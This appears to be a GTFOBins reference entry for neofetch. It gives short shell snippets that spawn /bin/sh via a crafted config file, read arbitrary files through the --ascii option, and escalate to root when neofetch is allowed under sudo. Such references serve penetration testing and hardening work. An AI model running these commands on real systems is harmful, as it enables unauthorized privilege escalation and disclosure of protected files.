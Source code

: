# GTFOBin: neofetch

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp)
echo 'exec /bin/sh' >$TF
neofetch --config $TF
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The file content is used as the logo while some other information is displayed on its right, thus it might not be suitable to read arbitray binary files.

```
LFILE=file_to_read
neofetch --ascii $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp)
echo 'exec /bin/sh' >$TF
sudo neofetch --config $TF
```